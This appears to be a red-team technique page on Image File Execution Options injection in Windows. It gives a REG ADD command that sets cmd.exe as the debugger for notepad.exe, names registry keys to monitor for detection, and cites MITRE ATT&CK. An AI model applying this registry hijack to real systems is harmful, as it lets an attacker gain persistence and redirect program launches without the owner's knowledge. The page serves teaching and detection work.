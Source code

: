 ```yaml
---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---
```


# Image File Execution Options Injection

## Execution

Modifying registry to set cmd.exe as notepad.exe debugger, so that when notepad.exe is executed, it will actually start cmd.exe:

{% code title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode %}

Launching a notepad on the victim system:

![](../../.gitbook/assets/ifeo-notepad.png)

Same from the cmd shell:

![](../../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring command line arguments and events modifying registry keys: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting this attack:

![](../../.gitbook/assets/ifeo-cmdline.png)

![](../../.gitbook/assets/ifeo-cmdline2.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1183" %}

{% embed url="https://blogs.msdn.microsoft.com/mithuns/2010/03/24/image-file-execution-options-ifeo/" %}

{% embed url="https://blogs.msdn.microsoft.com/reiley/2011/07/29/a-debugging-approach-to-ifeo/" %}

